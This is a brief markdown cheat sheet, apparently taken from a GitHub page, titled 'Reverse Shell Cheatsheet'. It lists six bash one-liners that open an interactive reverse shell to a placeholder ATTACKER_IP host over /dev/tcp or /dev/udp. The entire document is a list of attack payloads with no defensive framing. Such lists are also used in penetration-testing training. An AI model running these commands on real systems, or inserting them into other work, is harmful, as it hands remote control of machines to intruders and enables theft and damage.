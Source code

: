 # Reverse Shell Cheatsheet

## Bash Reverse Shell

```bash
1. bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
2. /bin/bash -i >& /dev/tcp/ATTACKER_IP/PORT 0<&1 2>&1
3. bash -c "bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1"
4. bash -c "bash -i >& /dev/udp/ATTACKER_IP/PORT 0>&1"
5. bash -c "exec bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1"
6. 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/PORT; sh <&196 >&196 2>&196
```
